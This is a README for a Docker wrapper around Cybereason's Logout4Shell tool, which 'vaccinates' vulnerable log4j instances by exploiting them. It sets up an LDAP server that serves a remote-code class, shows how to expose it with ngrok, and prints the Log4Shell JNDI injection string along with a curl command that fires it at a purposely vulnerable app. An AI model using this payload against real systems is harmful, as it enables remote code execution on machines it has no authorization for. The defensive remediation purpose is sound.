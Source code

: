 ## Log4j Docker Vaccine

A containerized way to run the log4j vaccine offered by Cyberreason

- https://github.com/Cybereason/Logout4Shell

### Make it go
Clone this repo:

```bash
git clone https://github.com/jeffbryner/log4j-docker-vaccine.git
```

Edit the containers.env file to hold an accurate private or public IP/DNS that your target can access. The default entry likely won't work for you!

Build and run the containers:

```bash
docker-compose -f docker-compose.yml -p vaccine up
```

You now have a listening ldap server that will serve up the Log4jRCE class to innoculate a vulnerable log4j instance.

You can expose this to the internet (if you like) by using ngrok.
 - https://dashboard.ngrok.com/get-started/setup

 ```bash
 ngrok tcp 1389
 ```

 You can send a vulnerable log4j instance to this using the infamous jndi input string:
 ```
 ${jndi:ldap://<ngrokurlgoeshere>:1389/a}
 ```

## Testing
There is a purposefully vulnerable version of log4j in a container available at:
- https://github.com/christophetd/log4shell-vulnerable-app

You can follow their instructions to start it and use it for testing:

```
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

And trigger the innoculation via:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-ip-address-or-dns-name:1389/a'
```

